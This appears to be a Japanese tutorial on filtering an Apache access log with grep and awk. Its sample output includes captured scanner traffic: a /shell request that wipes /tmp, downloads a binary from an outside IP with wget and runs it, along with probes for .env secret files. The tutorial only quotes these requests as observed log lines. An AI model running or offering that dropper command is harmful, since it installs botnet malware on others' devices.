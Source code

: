 ```
 135.125.246.110 - - [28/Nov/2021:03:17:39 +0900] "GET /.env HTTP/1.1" 302 209 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
 61.136.101.133 - - [28/Nov/2021:03:17:46 +0900] "GET http://dushu.baidu.com HTTP/1.1" 302 208 "-" "-"
 164.90.204.15 - - [28/Nov/2021:03:20:54 +0900] "CONNECT www.yahoo.com:443 HTTP/1.1" 302 210 "-" "Go-http-client/1.1"
 suzuki$
 ```

 それっぽいログが出るようになりました。
 次にどこからのアクセスが多いのかを絞り込みます。

 ```
 suzuki$ sudo cat /var/log/httpd/access_log | grep -v "ELB-HealthChecker" | awk -F '"' '{ print $2; }' | head
  GET http://guba.eastmoney.com/list,hk01500_1.html HTTP/1.1
  CONNECT guba.eastmoney.com:443 HTTP/1.1
  GET http://guba.eastmoney.com/list,hk01500_1.html HTTP/1.1
  CONNECT guba.eastmoney.com:443 HTTP/1.1
  GET /shell?cd+/tmp;rm+-rf+*;wget+ 185.245.96.227/bins/arm;chmod+777+/tmp/arm;sh+/tmp/arm+selfrep.jaws
  GET http://dushu.baidu.com HTTP/1.1
  POST / HTTP/1.1
  GET /.env HTTP/1.1
  GET http://dushu.baidu.com HTTP/1.1
  CONNECT www.yahoo.com:443 HTTP/1.1
  suzuki$
  ```

  GETとPOSTの項目に絞り込まれました。
  awk コマンドの -F はセパレータで、この場合は '"' を区切り文字として２番目の値を出力するという意味になります。最後のheadは確認は出力の冒頭だけで十分なのでつけています。

次は、GET, CONNECT, POSTなどのコマンドを除去します。
awkコマンドのデフォルトのセパレーターは空白なので、空白区切りで数えると二つ目を表す $2 を使って絞り込みます。

```
suzuki$ sudo cat /var/log/httpd/access_log-20211205 | grep -v "ELB-HealthChecker" | awk -F '"' '{ print $2; }' | awk '{ print $2; }' | head
 http://guba.eastmoney.com/list,hk01500_1.html
 guba.eastmoney.com:443
 http://guba.eastmoney.com/list,hk01500_1.html
 guba.eastmoney.com:443
 /shell?cd+/tmp;rm+-rf+*;wget+
 http://dushu.baidu.com
 /
 /.env
 http://dushu.baidu.com
 www.yahoo.com:443
 suzuki$
```

次に、余計な出力を抑制します。
ここでは空白行を出力したくないので grep -v ^$ を使っています。
非常によく使うオプションなので覚えておくとよいです。
